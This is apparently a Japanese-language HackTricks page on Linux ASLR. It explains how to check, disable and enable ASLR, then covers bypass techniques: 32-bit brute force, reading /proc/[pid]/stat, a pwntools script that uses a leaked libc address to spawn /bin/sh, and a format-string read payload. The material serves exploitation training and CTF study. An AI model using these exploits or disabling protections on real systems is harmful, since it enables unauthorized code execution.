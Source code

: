 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

**アドレス空間配置ランダム化（ASLR）**は、オペレーティングシステムで使用されるセキュリティ技術で、**システムおよびアプリケーションプロセスによって使用されるメモリアドレスをランダム化**します。これにより、攻撃者が特定のプロセスやデータ（スタック、ヒープ、ライブラリなど）の位置を予測することが著しく難しくなり、特にバッファオーバーフローなどの特定のタイプのエクスプロイトを軽減します。

### **ASLRの状態を確認する**

LinuxシステムでASLRの状態を**確認する**には、`/proc/sys/kernel/randomize_va_space`ファイルから値を読み取ります。このファイルに保存されている値は、適用されるASLRのタイプを決定します：

* **0**: ランダム化なし。すべてが静的です。
* **1**: 保守的なランダム化。共有ライブラリ、スタック、mmap()、VDSOページがランダム化されます。
* **2**: 完全なランダム化。保守的なランダム化によってランダム化された要素に加えて、`brk()`を通じて管理されるメモリがランダム化されます。

次のコマンドでASLRの状態を確認できます：
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **ASLRの無効化**

ASLRを**無効化**するには、`/proc/sys/kernel/randomize_va_space`の値を**0**に設定します。ASLRを無効化することは、テストやデバッグのシナリオ以外では一般的に推奨されません。無効化する方法は次のとおりです：
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
ASLRを無効にして実行することもできます：
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **ASLRの有効化**

ASLRを**有効化**するには、`/proc/sys/kernel/randomize_va_space`ファイルに**2**の値を書き込むことができます。これには通常、root権限が必要です。完全なランダム化は、次のコマンドで行うことができます：
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **再起動時の持続性**

`echo` コマンドで行った変更は一時的であり、再起動時にリセットされます。変更を持続させるには、`/etc/sysctl.conf` ファイルを編集し、以下の行を追加または修正する必要があります：
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
`/etc/sysctl.conf`を編集した後、次のコマンドで変更を適用します:
```bash
sudo sysctl -p
```
This will ensure that your ASLR settings remain across reboots.

## **バイパス**

### 32ビットブルートフォース

PaXはプロセスアドレス空間を**3つのグループ**に分けます：

* **コードとデータ**（初期化済みおよび未初期化）：`.text`、`.data`、および`.bss` —> `delta_exec`変数に**16ビット**のエントロピー。この変数は各プロセスでランダムに初期化され、初期アドレスに加算されます。
* `mmap()`によって割り当てられた**メモリ**および**共有ライブラリ** —> **16ビット**、`delta_mmap`と呼ばれます。
* **スタック** —> **24ビット**、`delta_stack`と呼ばれます。ただし、実際には**11ビット**（10バイト目から20バイト目までを含む）を使用し、**16バイト**に整列されています —> これにより、**524,288の実際のスタックアドレス**が可能になります。

前述のデータは32ビットシステム用であり、最終的なエントロピーが減少することで、エクスプロイトが成功するまで実行を何度も再試行することでASLRをバイパスすることが可能になります。

#### ブルートフォースのアイデア：

* シェルコードの前に**大きなNOPスレッド**をホストするのに十分なオーバーフローがある場合、スタック内のアドレスをブルートフォースして**NOPスレッドの一部を飛び越える**まで試すことができます。
* オーバーフローがそれほど大きくなく、エクスプロイトをローカルで実行できる場合は、**環境変数にNOPスレッドとシェルコードを追加する**ことが可能です。
* エクスプロイトがローカルである場合、libcのベースアドレスをブルートフォースすることを試みることができます（32ビットシステムに便利）：
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* リモートサーバーを攻撃する場合、**`libc`関数`usleep`のアドレスをブルートフォースする**ことを試みることができます。引数として10を渡します（例えば）。もしある時点で**サーバーが応答するのに10秒余分にかかる**場合、この関数のアドレスを見つけたことになります。

{% hint style="success" %}
64ビットシステムではエントロピーがはるかに高く、これは不可能です。
{% endhint %}

### ローカル情報 (`/proc/[pid]/stat`)

プロセスの**`/proc/[pid]/stat`**ファイルは常に誰でも読み取ることができ、**興味深い**情報が含まれています：

* **startcode** & **endcode**: バイナリの**TEXT**の上と下のアドレス
* **startstack**: **スタック**の開始アドレス
* **start\_data** & **end\_data**: **BSS**の上と下のアドレス
* **kstkesp** & **kstkeip**: 現在の**ESP**と**EIP**アドレス
* **arg\_start** & **arg\_end**: **CLI引数**の上と下のアドレス
* **env\_start** & **env\_end**: **環境変数**の上と下のアドレス

したがって、攻撃者がエクスプロイトされているバイナリと同じコンピュータにいる場合、このバイナリが生の引数からのオーバーフローを期待していないが、このファイルを読み取った後に作成できる別の**入力からのオーバーフローを期待している場合**、攻撃者は**このファイルからいくつかのアドレスを取得し、それらからオフセットを構築してエクスプロイトを行う**ことが可能です。

{% hint style="success" %}
このファイルに関する詳細は、[https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html)で`/proc/pid/stat`を検索してください。
{% endhint %}

### リークを持つこと

* **課題はリークを提供することです**

リークが与えられた場合（簡単なCTFチャレンジ）、それからオフセットを計算することができます（例えば、エクスプロイトしているシステムで使用されている正確なlibcバージョンを知っていると仮定します）。この例のエクスプロイトは、[**ここからの例**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak)から抜粋されています（詳細はそのページを確認してください）：
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

バッファオーバーフローを悪用することで、**ret2plt**を利用してlibcの関数のアドレスを抽出することが可能です。確認してください：

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

ret2pltと同様に、フォーマット文字列の脆弱性を介して任意の読み取りが可能であれば、GOTから**libc関数**のアドレスを抽出することができます。次の[**例はここから**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)です：
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
You can find more info about Format Strings arbitrary read in:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

スタック内のアドレスを悪用してASLRをバイパスしようとします:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
